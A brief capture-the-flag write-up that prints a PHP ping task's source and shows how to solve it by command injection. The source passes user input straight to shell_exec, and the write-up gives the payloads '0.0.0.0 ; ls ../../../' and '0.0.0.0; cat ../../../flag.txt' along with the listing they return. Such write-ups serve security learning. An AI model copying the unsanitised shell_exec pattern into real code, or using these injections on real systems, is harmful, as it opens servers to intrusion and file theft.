 Source code of task:
<pre>
<?php
ini_set('error_displays', 0);
$ip = htmlspecialchars($_GET['url'], ENT_QUOTES);

$f = fsockopen($ip, 80, $errno, $errstr, 5);
if($f) {
	$result = shell_exec('ping -c 4 ' . $ip);
	echo '<div class="alert alert-success">' . nl2br($result) . '</div>';
} else {
	echo '<div class="alert alert-danger">' .$errstr . '</div>';
}
?>
</pre>
The only thing we need here is
<pre>
$result = shell_exec('ping -c 4 ' . $ip);
</pre>
This code excecutes in a bash console. So if you type 0.0.0.0 and press 'Ping' it will return a data.<br>
Now check for a flag file in directories:
<pre>
0.0.0.0 ; ls ../../../ =
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

0.0.0.0; cat ../../../flag.txt
</pre>
GL
